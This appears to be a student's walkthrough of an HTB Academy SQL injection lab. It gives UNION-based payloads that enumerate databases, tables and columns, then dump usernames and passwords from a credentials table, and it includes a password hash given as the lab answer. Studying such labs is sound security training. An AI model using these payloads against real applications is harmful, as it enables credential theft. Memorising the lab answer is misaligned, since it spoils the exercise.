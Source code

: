 ```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

So after success they show us all the columns name in the mentioned table and suppose that is username and credential

Data
----

Now that we have all the information, we can form our UNION query to dump data of the username and password columns from the credentials table in the dev database. We can place username and password in place of columns 2 and 3:

```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
Remember: don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.

We were able to get all the entries in the credentials table, which contains sensitive information such as password hashes and an API key.

HTB Academy Question
--------------------

Q: What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

A: 9da2c9bcdf39d8610954e0e11ea8f45f
#### Solution:
To find the answer of the above question we first have to gether information about how many databases they have how many table they have and how many columns they have to find the answer and in they privious htb academy question we know the position where we see our result to modify our payload so now we use that information to get sensitive data so we have to find how many databases they have to do that we use the following query

```
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
``` 

this query show us how many databases they have and they show two databases name "dev" and "ilfreight" so now we know how many database so now we have to know how many tables in the database so to do that we use the following query

```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```

this query show us totel number of tables in the ilfreight database and they show three tables and there name is "ports","users" and "products" so now we know the tables name so now we need totel number of columns in the table so we can use the following query to find this

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
``` 

